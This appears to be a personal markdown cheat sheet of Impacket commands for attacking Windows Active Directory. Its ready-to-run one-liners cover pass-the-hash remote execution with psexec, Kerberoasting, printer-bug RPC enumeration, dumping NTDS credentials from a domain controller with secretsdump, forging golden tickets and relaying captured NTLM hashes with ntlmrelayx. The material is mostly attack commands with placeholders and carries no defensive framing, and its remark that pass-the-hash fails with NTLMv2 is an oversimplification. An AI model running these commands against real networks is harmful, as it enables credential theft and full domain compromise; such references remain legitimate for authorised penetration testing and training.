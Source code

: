 ```yaml
---
category: Uncategorized
tags: []
---
```

impacket

Passing the hash only works with NTLM, not NTLMv2

PSExec usage:
~~~bash
impacket-psexec "username":password@ipaddress
~~~

PSExec usage with a hash:
~~~bash
impacket-psexec "username":@ipaddress -hashes FullNTLM:Hash
~~~

Kerberoasting SPN with Valid Credentials:
~~~bash
impacket-GetUserSPNs Domain/Username:Password -dc-ip [Domain Controller IP] -request -output krb5_ticket.txt
~~~

SMB Server with SMBv2 Support:
~~~bash
impacket-smbserver share 'pwd' -smb2support
~~~

RPCDump:
~~~bash
impacket-rpcdump @victimIP | egrep 'MS-RPRN|MS-PAR'
~~~

Convert .kirbi to .ccache:
~~~bash
impacket-ticketconverter user.kirbi user.ccache
~~~

dumping ntds from DC using ccache and secrets dump:
~~~bash
KRB5CCNAME=/home/kali/user.ccache impacket-secretsdump -k -no-pass -dc-ip DC_IP -target-ip DC_IP Server.FQDN
~~~

Generate Golden Ticket:
~~~bash
impacket-ticketer -nthash [DA NTLM Hash] -domain-sid [Domain SID] -domain FQDN.Domain DA_User
~~~

NTLMRelayX - Relay SMB/WPAD captured hashes to a target list and create socks proxy to the hosts via SMB and create a file with the captured hashes:
~~~bash
impacket-ntlmrelayx -tf targets.txt -smb2support -socks --output-file Captured_Hashes.txt
~~~
